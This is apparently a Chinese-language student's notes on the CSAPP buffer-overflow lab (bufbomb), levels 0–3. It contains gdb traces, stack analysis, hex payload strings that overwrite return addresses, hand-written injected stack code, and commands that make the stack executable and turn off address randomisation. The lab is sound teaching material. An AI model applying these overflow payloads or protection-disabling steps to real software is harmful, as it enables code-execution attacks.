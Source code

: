 ```yaml
---

类型: 笔记
创建日期: 2024-05-23
修改日期: 2024-05-23
---
```

## level 0 Candle
`(gdb) p/x &smoke`
`$1 = 0x8048e20`

单步调试机器指令 `stepi` `si`
```
Breakpoint 2, 0x08048ff1 in getbuf ()

(gdb)  info registers esp
esp            0xffffb070          0xffffb070
(gdb)  info registers ebp
ebp            0xffffb088          0xffffb088

(gdb) x/16xw $esp
0xffffb070:     0xffffb07c      0xf7ef8550      0x00000000      0x65646f77
0xffffb080:     0x0000616d      0x0804b5c0      0xffffb0a8    **0x0804901e**

(gdb) x/1xw $ebp
0xffffb0a8 
```
0x0804901e就是test中调用get_buf的下一条指令地址，要将其改为我们要的smoke地址0x8048e20，小端存储低地址在前。
我一直在想的是要保存好旧的ebp的那块区域，不然ebp无法正确返回到上一个栈。
想错了，ebp，esp中存放的是地址值，而我会覆盖的是地址值里的内容。
栈的扩张和收缩都是由ebp，esp（寄存器）传递自己内部保存的地址值整的，~~期间是不会去访问地址值内的内容的~~。（是会访问的，leave时要将旧ebp值弹回ebp，所以ebp里的值会出问题。
> leave：使栈做好返回准备，等价于
	mov %ebp，%esp
	pop %ebp

但是ret指令会把返回地址弹回esp，如果把此栈帧空间全部覆盖了，程序跳转是没问题的。**而且去下一个函数中执行时上来先push ebp，其实不会有影响**

要想覆盖掉返回地址，只需要看创建现在这个栈帧时分配了多大的空间，直接把对应得返回地址给覆盖了。


通过，构造字符串如下
`31 31 31 31 31 31 31 31 c0 b5 04 08 a8 b0 ff ff 1e 90 04 08`

```

Breakpoint 2, 0x08048fe6 in getbuf ()
(gdb) x/16xw $ebp-0xc
0xffffb07c:     0x00000000      0x00000004      0x0804b5c0      0xffffb0a8
0xffffb08c:     0x0804901e      0x00000003      0x08049ac7      0xffffb0b4
0xffffb09c:     0x00000000      0xffffb0c0      0xdeadbeef      0xffffc888
0xffffb0ac:     0x08049105      0x08049ac7      0x000000f4      0x00001770
(gdb) c
Continuing.

Breakpoint 1, 0x08048ff1 in getbuf ()
(gdb) x/16xw $ebp-0xc
0xffffb07c:     0x04030201      0x08070605      0x12111009      0xffffb0a8
0xffffb08c:     0x08048e20      0x00000000      0x08049ac7      0xffffb0b4
0xffffb09c:     0x00000000      0xffffb0c0      0xdeadbeef      0xffffc888
0xffffb0ac:     0x08049105      0x08049ac7      0x000000f4      0x00001770
(gdb) 
```
问题：上一个函数的传参3为什么也没了
解答：经过测试发现是最后还添加一个0x00，刚好覆盖了
## level 1 Sparkler
`fizz`函数地址`08048dc0`
函数中`8048dc7:	8b 5d 08  mov 0x8(%ebp),%ebx  ; 入参int val`
要在ebp + 8 位置放好字符串，下图展示如何确定此位置
![[B6E3A24C5F56A69DF646F52EF8BC9CAA.png]]
`01 02 03 04 05 06 07 08 09 10 11 12 00 00 00 00 c0 8d 04 08 00 00 00 00 dd dd 68 57`
## Level 2 Firecracker
Bang地址`08048d60 <bang>:`
`mov    0x804a1dc,%eax                ; <global_value>`
`cmp    0x804a1cc,%eax                ; <cookie>`
首先要修改程序堆栈的可执行属性，然后关掉系统的栈地址随机化，否则每一次的缓冲区位置都不相同，无法通过缓冲区溢出跳转到此固定的缓冲区位置执行，即如下命令：
```shell
apt-get install execstack
execstack -s bufbomb
sudo sysctl -w kernel.randomize_va_space=0
```
打断点查看gets函数的传参地址
`(gdb) x $eax`
`0xffffb07c:     0x00000000`
构建栈上运行的代码：
```
movl $0x804a1cc, %eax
movl %eax, $0x804a1dc       ; 将cookie地址传给global_value
pushq $0x08048d60           ; 返回Bang运行
retq
```

转为汇编
```

bang.o：     elf32-i386


Disassembly of section .text:

00000000 <.text>:
   0:   a1 cc a1 04 08          mov    0x804a1cc,%eax
   5:   a3 dc a1 04 08          mov    %eax,0x804a1dc
   a:   68 60 8d 04 08          push   $0x8048d60
   f:   c3                      ret  

```


```
joseph@LAPTOP-E1IU5B7P:~/CSAPP/bufflab$ ./bufbomb -t SA23225138 < exploit-raw.txt 
Team: SA23225138
Cookie: 0x5768dddd
Type string:Bang!: You set global_value to 0x5768dddd
sh: 1: /usr/sbin/sendmail: not found
Error: Unable to send validation information to grading server
```

## level 3 dynamic
```
a1 cc a1 04 08 68 1e 90 04 08 c3 00 a8 b0 ff ff 7c b0 ff ff
```


## 要点
![[Pasted image 20240526214127.png]]
### level 0
只需要覆盖getbuf原本的返回值
`0x08048e20`
```
01 02 03 04 05 06 07 08 09 10 11 12 00 00 00 00 20 8e 04 08
```
### level 1
覆盖getbuf的返回值，对于入参val还要将其放在对应的地方ebp+8
```
01 02 03 04 05 06 07 08 09 10 11 12 00 00 00 00 c0 8d 04 08 00 00 00 00 dd dd 68 57
```
### level 2
要栈上执行指令，那么需要将返回值修改为指令序列头部，即buf首地址。
指令内容：将cookie的值放入global_value，并push函数地址，这样执行完指令后跳转
```
a1 cc a1 04 08 a3 dc a1 04 08 68 60 8d 04 08 c3 7c be ff ff
```
### level 3
```
a1 cc a1 04 08 68 1e 90 04 08 c3 00 a8 be ff ff 7c be ff ff
```
要栈上执行指令，那么需要将返回值修改为指令序列头部，即buf首地址。
指令内容：将cookie的值放入eax，并push下一条执行的地址，这样执行完指令后跳转
